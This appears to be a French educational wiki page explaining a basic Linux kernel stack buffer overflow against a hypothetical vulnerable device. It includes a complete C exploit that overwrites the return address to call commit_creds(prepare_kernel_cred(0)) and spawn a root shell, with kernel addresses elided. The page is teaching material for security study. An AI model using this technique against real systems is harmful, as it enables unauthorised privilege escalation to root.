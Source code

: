 # Buffer Overflow Basic

## Overview
Tout comme pour une exploitation de **BoF** en user-land, notre objectif va être d&#39;overwrite la return address de la fonction vulnérable pour prendre le contrôle du flow d&#39;exécution. 
On se place ici dans le cas où aucune protection n&#39;est présente au niveau du kernel. 
## Detail
Notre objectif lors de l&#39;exploitation d&#39;un buffer overflow en kernel-land est de réussir a exécuter du code user-land tout en profitant de l&#39;exécution de code kernel-land pour [élever nos privilèges](/MyLittlePwney/pwn/kernel/kernel-privesc).

Ainsi, un schéma d&#39;attaque classique nous donnerait :
1) Exploiter le buffer overflow.
2) Overwrite l&#39;adresse de retour de la fonction vulnérable par l&#39;adresse de la fonction *privesc()*.
	- *privesc()* passe les privilèges du process, lancé par notre binaire *exploit*, a root.
3) Maintenant qu&#39;on a des privilèges root, on peut lancer un *system(&#34;/bin/sh&#34;)*.
![task_struct](/MyLittlePwney/images/kernel_bof.png)
## Exploit
Pour implémenter cette attaque, on va se mettre dans le cas où on peut interagir avec une device, dont la propriété **write** fait appel à une fonction vulnérable à un buffer overflow. Ainsi, lorsque l&#39;on va *write()* plus de caractères qu&#39;attendu, on va overflow sur la stack kernel.

Pour exploiter cela, on va tout d&#39;abord devoir ouvrir la device pour interagir avec elle.
```c title:open_dev()
int global_fd;

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}
```

Ensuite on va préparer notre fonction *privesc()* que l&#39;on va appeler une fois avoir pris le contrôle sur le flow d&#39;exécution côté kernel.

| Pour mieux comprendre le principe de l&#39;élévation de privilèges côté kernel, allez voir : [Kernel Privesc](/MyLittlePwney/pwn/kernel/kernel-privesc). |
| --- |

```c title:privesc()
unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}
```

Maintenant qu&#39;on a la fonction qui va nous permettre d&#39;élever nos privilèges, on va pouvoir overflow sur la stack kernel et rediriger le flow d&#39;exécution vers cette fonction.
```c title:overflow()
void overflow(){
  // Overlow at 64 bytes
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;

  write(global_fd, payload, sizeof(payload));
}
```

Grâce à cet exploit, nous avons manipulé le kernel pour qu&#39;il passe le process spawn par *exploit* en tant que process root. Il ne nous reste plus qu&#39;à run un *system(&#34;/bin/sh&#34;)* pour obtenir un shell root.

En résumé, notre exploit final donne quelque chose comme :
```c title:exploit.c
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;fcntl.h&gt;

int global_fd;

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}

void overflow(){
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;
  write(global_fd, payload, sizeof(payload));
}

int main() {
  open_dev();
  overflow();
  system(&#34;/bin/sh&#34;);
  return 0;
}
```

---

> Author:   
> URL: http://my.littlepwney.fr/pwn/kernel/attacks/buffer-overflow-basic/  

